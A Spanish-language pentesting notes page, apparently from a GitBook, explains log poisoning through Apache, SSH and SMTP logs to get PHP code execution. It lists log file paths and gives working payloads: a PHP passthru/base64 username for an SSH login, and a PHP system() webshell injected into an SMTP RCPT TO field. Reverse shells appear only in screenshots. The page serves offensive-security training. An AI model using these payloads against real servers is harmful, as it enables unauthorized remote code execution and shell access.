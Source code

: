 # Log Poisoning (Apache, SSH y SMPT)

## Links:

[**Apache Logs**](log-poisoning-apache-ssh-y-smpt.md#apache-logs)

[**SSH Logs**](log-poisoning-apache-ssh-y-smpt.md#ssh-logs)

[**SMPT Logs**](log-poisoning-apache-ssh-y-smpt.md#smtp-logs)



## Apache Logs&#x20;

Este ataque consiste en que si el usuario www-data tiene capacidad de lectura del archivo de **logs de apache**, poder modificar el contenido de este a través de una **cabecera HTTP** para que el navegador al acceder a este recurso ejecute código PHP arbitrario.

### Locations

RHEL / Red Hat / CentOS / Fedora Linux Apache access file location – /var/log/httpd/access\_log

FreeBSD Apache access log file location – /var/log/httpd-access.log

Debian / Ubuntu Linux Apache access log file location – /var/log/apache2/access.log

### Explotación

Si se cuenta con capacidad de lectura del archivo de logs, se puede modificar la cabezar HTTP **User-Agent** con una línea de código php para que al abrirse el archivo de logs el navegador interprete el código php que hayamos inyectado, bien sea a través de la url o un comando directamente.

En este caso haremos que php ejecute como comando de sistema todo la data que viaje por el método GET:

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Ahora cuando accedamos al fichero de logs podremos ejecutar comandos, en este caso que nos establezca una reverse shell a través de netcat:

<figure><img src="../../.gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>

Máquina atacante:

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>



## SSH Logs

Este ataque consta de si el **servicio SSH está abierto** y el usuario www-data tiene capacidad de lectura del fichero de **logs de ssh**, es posible modificar este fichero para que el navegador al abrirlo ejecute código PHP.

### Location

/var/log/auth.log

Lo que tenemos que hacer ahora es loguearnos como el usuario, debido a que tiene muchos símbolos que pueden generar conflicto en la bash, lo vamos a encodear en base64, usando una función de php para que lo decodee una vez lo interprete el navegador y posteriormente lo ejecute:

{% code overflow="wrap" %}
```bash
ssh "<?php passthru(base64_decode(<Command in base64>)); ?>"@<TARGET-IP>
# JF9HRVRbJ3B3bidd == $_GET['pwn']
ssh "<?php passthru(base64_decode('JF9HRVRbJ3B3bidd')); ?>"@192.168.182.129
```
{% endcode %}

_passthru:  Execute an external program and display raw output_

Ahora cuando accedamos al fichero auth.log podremos pasarle un parámetro con el cual vamos a ejecutar comandos, en este caso una reverse shell a través de netcat:

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Shell obtenida:

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>



## SMTP Logs

Este ataque consiste en que si hay un puerto **SMPT abierto**, pudiendo conectarnos a este para mandar un mail Y el usuario www-data tiene capacidad de lectura del archivo de **logs de smpt** se pueda ejecutar código PHP arbitrario a través de enviar un mail con una línea de código PHP en el remitente/receptor.

### Location

/var/log/mail.log

### Explotación

Lo primero será enviar un mail y en el campo del remitente/receptor poner el código php a ejecutar:

{% code overflow="wrap" %}
```bash
telnet <TARGET-IP> 25

MAIL FROM:evil-hacker   
250 2.1.0 Ok
RCPT TO:<?php system($_GET['pwn']); ?>
501 5.1.3 Bad recipient address syntax # Esto se ignora debido a que el servidor espera un ID y no un código php
```
{% endcode %}

